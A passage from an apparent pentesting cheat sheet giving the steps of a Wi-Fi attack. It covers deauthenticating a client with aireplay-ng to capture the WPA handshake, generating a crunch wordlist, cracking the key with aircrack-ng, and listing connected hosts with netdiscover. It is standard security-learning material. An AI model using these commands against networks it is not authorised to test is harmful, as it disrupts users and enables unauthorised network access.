     # disconnect the client
    aireplay-ng --deauth [NUMBER-OF-PACKET] -a [MAC-AP] -c [MAC-CLIENT-TO-DISCONNECT] [MONITOR-INTERFACE: e.g.: mon0]
    ```

    > **NUMBER-OF-PACKET** must be low, since we only want to disconnect for few seconds

    Once `aireplay-ng --deauth` is run, the output  of the previous `airodump-ng` (which must be kept running) displays the **WPA handshake**

   

2. Create wordlist

   ```bash
   crunch [min] [max] [characters=lower|upper|numbers|symbols] -t [pattern] -o [file]
   
   # example
   crunch 6 8 123456!"£$% -t a@@@@b -o wordlist
   ```

   

3. Find the Key

   ```bash
   aircrack-ng [FILE-01.cap-WHICH-CONTAINS-THE-HANDSHAKE] -w [WORDLIST-FILE]
   # [FILE-01.cap-WHICH-CONTAINS-THE-HANDSHAKE] is the [OUTPUT-FILE] of `airodump-ng --bssid` command 
   
   aircrack-ng test-handshake-01.cap -w wap-wordlist
   ```

   

4. The output will display the Password



## Post Connection

### discover connected clients

#### netdiscover

```bash
netdiscover -i [INTERFACE] -r [RANGE]

# example
netdiscover -i wlan0 -r 192.168.1.1/24

# output
IP				At MAC Address			Count		Len		MAC Vendor
.........................................................................
```



